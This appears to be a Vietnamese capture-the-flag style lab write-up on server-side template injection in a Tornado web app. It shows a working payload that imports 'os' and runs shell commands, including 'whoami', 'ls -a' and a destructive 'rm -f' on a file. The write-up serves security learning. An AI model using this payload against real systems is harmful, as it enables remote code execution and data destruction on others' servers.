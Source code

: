 # Basic server-side template injection (code context)

__Xác định vấn đề__

Ở challenge này chúng ta sẽ kết hợp 2 việc sau:

+ Đầu tiên thay đổi đầu vào với __blog_post_author_display__, xác định 2 vấn đề: không thể thực thi xss và traceback trả lại thông báo lỗi của ứng dụng tornado (python)

  ![image-20220718001812580](C:/Users/tuandv/AppData/Roaming/Typora/typora-user-images/image-20220718001812580.png)

+ Đầu ra kết quả được render tại __user.firstname__ nếu choice option là `firstname`, hoặc cũng có thể là `name`, `nickname`. 

__Khai thác__

Thoát ra khỏi ngữ cảnh để thực thi SSTI bằng cách dùng hai dấu đóng `}}`. Sau đó inject `{{7*7}}` load lại comment và thấy kết quả trả về như sau: 

![image](https://user-images.githubusercontent.com/68894302/179417304-13b264a4-45be-4930-b312-5bf1693b368a.png)

Bây giờ đã biết ứng dụng sử dụng tornado nên chúng ta có thể dễ dàng RCE :v:

Payload: __}}{%+import+os+%}{{{{os.system('whoami')}}}}__

1. __whoami__

   ![image](https://user-images.githubusercontent.com/68894302/179417423-40fe7dea-d040-4c09-aab6-e262069cc75a.png)

2. __ls -a__

   ![image](https://user-images.githubusercontent.com/68894302/179417469-04a2c136-75b5-497a-a9a9-1096210c3218.png)

3. __rm -f /home/carlos/morale.txt__

   ![image](https://user-images.githubusercontent.com/68894302/179417620-fcf096ef-1a02-41d8-8e41-336de595151d.png)